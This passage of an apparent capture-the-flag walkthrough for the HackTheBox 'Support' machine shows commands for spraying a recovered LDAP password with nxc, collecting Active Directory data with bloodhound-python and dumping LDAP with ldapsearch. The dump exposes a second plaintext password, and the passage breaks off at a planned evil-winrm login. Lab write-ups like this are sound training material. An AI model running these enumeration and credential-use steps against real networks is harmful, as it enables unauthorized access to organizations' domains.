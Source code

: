 - Using this creds we can try spraying them in the domain to check we have access.

```
 nxc smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares
```
![Ldap Creds Check](https://c00lrabbit.github.io/assets/Images/Support/Ldap-NXC.png)
- Found these are valid creds.

## Domain Enumeration
- Back in the old days we have to run a tool named SharpHound.ps1 on the target system to feed the BloodHound to visualize the domain structute. But now the community made it simple by making bloodhound-python.
- Which is similar like sharphound but we can run it on the attacker side.

```bash
bloodhound-python -d support.htb -c All -ns 10.10.11.174 --zip -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![BloodHound result](https://c00lrabbit.github.io/assets/Images/Support/BloodHound-Result.png)
- Found that Shared Support Account has generic all over `DC.SUPPORT.HTB`

#### Note: Default AD groups ends with id less then 1000 non default will have id greater than 1000
# LDAP (389) 
#### We can use ldap search for checking field in the domain Because bloodhound checks for Description.

```bash
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support, dc=htb' > ldap.out
```

![ldapsearch Result](https://c00lrabbit.github.io/assets/Images/Support/Ldapsearch-result.png)

```
support:Ironside47pleasure40Watchful
```
- Found another credentials for the user support.

### It is common to have password in info field

# Finding 

#### Found support user is the member of Shared support Account and that group has generic all privilege over the DC

## Evil-winrm
- Using these creds we can winrm into the machine
